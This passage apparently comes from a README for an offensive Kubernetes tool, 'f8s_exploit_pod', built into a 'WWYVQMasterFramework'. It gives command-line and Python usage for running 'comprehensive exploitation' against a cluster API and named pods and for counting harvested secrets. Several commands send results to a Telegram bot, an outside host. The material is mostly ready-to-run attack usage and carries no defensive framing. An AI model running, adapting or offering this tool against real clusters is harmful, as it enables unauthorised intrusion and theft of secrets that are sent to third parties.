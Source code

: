 ### **WWYVQMasterFramework Integration**
```python
from wwyvq_master_final import WWYVQMasterFramework
from f8s_exploit_pod import F8sPodExploiter

class EnhancedWWYVQMaster(WWYVQMasterFramework):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.f8s_exploiter = F8sPodExploiter(
            telegram_token=self.telegram_token,
            telegram_chat_id=self.telegram_chat_id
        )
```

## 🚀 Usage

### **Standalone Usage**
```bash
# Basic exploitation
python3 f8s_exploit_pod.py --target https://k8s-api.example.com

# With specific pods
python3 f8s_exploit_pod.py --target https://k8s-api.example.com --pods web-app api-server

# With Telegram notifications
python3 f8s_exploit_pod.py --target https://k8s-api.example.com \
    --telegram-token "1234567890:AAEXAMPLEaBcDeF123456789" \
    --telegram-chat-id "-1001234567890"

# Save results to file
python3 f8s_exploit_pod.py --target https://k8s-api.example.com --output results.json
```

### **Programmatic Usage**
```python
import asyncio
from f8s_exploit_pod import F8sPodExploiter

async def main():
    exploiter = F8sPodExploiter(
        telegram_token="your_token",
        telegram_chat_id="your_chat_id"
    )
    
    # Comprehensive exploitation
    results = await exploiter.run_comprehensive_exploitation(
        cluster_endpoint="https://k8s-api.example.com",
        target_pods=["web-app", "database"]
    )
    
    print(f"Found {len(results['secrets'])} secrets")
    print(f"Discovered {len(results['vulnerabilities'])} vulnerabilities")

asyncio.run(main())
```
